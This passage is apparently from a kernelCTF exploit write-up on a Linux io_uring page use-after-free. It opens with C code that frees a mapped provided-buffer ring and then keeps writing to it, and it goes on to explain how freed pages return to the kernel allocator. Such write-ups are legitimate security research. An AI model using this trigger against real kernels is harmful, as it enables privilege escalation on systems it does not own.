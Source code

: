 ```c

  struct io_uring_buf_reg reg = {
      .ring_entries = 1, .bgid = 0, .flags = IOU_PBUF_RING_MMAP};
  SYSCHK(syscall(__NR_io_uring_register, uring_fd, IORING_REGISTER_PBUF_RING,
                 &reg, 1));

  void *pbuf_mapping = SYSCHK(mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                                   MAP_SHARED, uring_fd, IORING_OFF_PBUF_RING));
  printf("pbuf mapped at %p\n", pbuf_mapping);

  struct io_uring_buf_reg unreg = {.bgid = 0};
  SYSCHK(syscall(__NR_io_uring_register, uring_fd, IORING_UNREGISTER_PBUF_RING,
                 &unreg, 1));
  while (1) {
    memset(pbuf_mapping, 0xaa, 0x1000);
    usleep(100000);
  }
}
```

## Revisit of Page UAF

Since page UAF is a very powerful primitive, exploit is quite easy and straightforward.  Before we go ahead into the trivial exploit part, let's revisit how page UAF works, especially on kernelCTF's hardened mitigation instance.

### PCP(per_cpu_pages) list & migratetype

#### folio_put

If a folio's reference count drops to zero, the memory will be released back to the page allocator and may be used by another allocation immediately.

``` c
static inline void folio_put(struct folio *folio)
{
	if (folio_put_testzero(folio))
		__folio_put(folio);
}

void __folio_put(struct folio *folio)
{
	if (unlikely(folio_is_zone_device(folio)))
		free_zone_device_page(&folio->page);
	else if (unlikely(folio_test_large(folio)))	// <-- multi-page folio?
		__folio_put_large(folio);
	else
		__folio_put_small(folio);
}
```

Normally, depending on the folio type, the call flows into either the single-page or multi-page release path:
